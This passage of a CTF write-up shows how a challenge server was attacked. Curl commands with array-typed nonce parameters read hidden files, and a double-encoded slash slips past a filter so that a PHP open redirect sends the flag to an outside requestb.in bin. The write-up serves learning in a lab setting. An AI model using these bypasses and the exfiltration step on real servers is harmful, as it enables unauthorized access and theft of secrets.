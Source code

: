 We run the following command:

```bash
curl -X POST --data "messid=robots.txt&nonce[]=lol&nonce[]=lol&storagesv=lol&hash=ed094d614919a055e78dc191fb658b9b0e7b24d0d05eb421211eecdc37ebb566" http://35.198.201.83/download.php
```

and we get the following output:

```
<xmp style="background: #f8f9fa;overflow-x:scroll;padding:10px;max-height:500px"><html xmlns="http://www.w3.org/1999/xhtml"><head></head><body><pre style="word-wrap: break-word; white-space: pre-wrap;">User-agent: * Disallow: /index_09cd45eff1caa0e.txt </pre></body></html></xm
```

Ok, let's check `/index_09cd45eff1caa0e.txt`:

```bash
curl -X POST --data "messid=index_09cd45eff1caa0e.txt&nonce[]=lol&nonce[]=lol&storagesv=lol&hash=ed094d614919a055e78dc191fb658b9b0e7b24d0d05eb421211eecdc37ebb566" http://35.198.201.83/download.php
```

This outputs:

```
<xmp style="background: #f8f9fa;overflow-x:scroll;padding:10px;max-height:500px">
<html xmlns="http://www.w3.org/1999/xhtml"><head></head><body><pre style="word-wrap: break-word; white-space: pre-wrap;">&lt;?php
        if(isset($_GET['url'])){
                        $url = (string)$_GET['url'];
                        header('Location: '.$url.'?flag=***SECRET***:');
        }
?&gt;
</pre></body></html>
</xmp>
```

We figure out that this is a backup of `/index.php` on the local server
`route.local`. Basically, passing a `url` parameter to the request to this file
will send the flag to the server it points to.

In order to exfiltrate it, we need to pass a URL we control as a parameter; it
does not need to be prefixed with `http://` but at least by `//`, which is
a pattern that is filtered by the `filter` function.

It seems quite obvious to try double encoding one of the slashes here and, after
executing

```php
curl -X POST --data "nonce[]=lol&nonce[]=lol&storagesv=lol&hash=ed094d614919a055e78dc191fb658b9b0e7b24d0d05eb421211eecdc37ebb566&messid=index.php%3Furl=%252F/requestb.in/zmecxqzm" http://35.198.201.83/download.php
```

We obtain the flag in our bin: `AceBear{A_w4Y_t0_tr1cK_oP3n_r3Dir3cT}`!!

## Conclusion

Those two challenges were very interesting, and I had a lot of fun beating them.
Thanks a lot to the organizing team for making such a cool CTF!
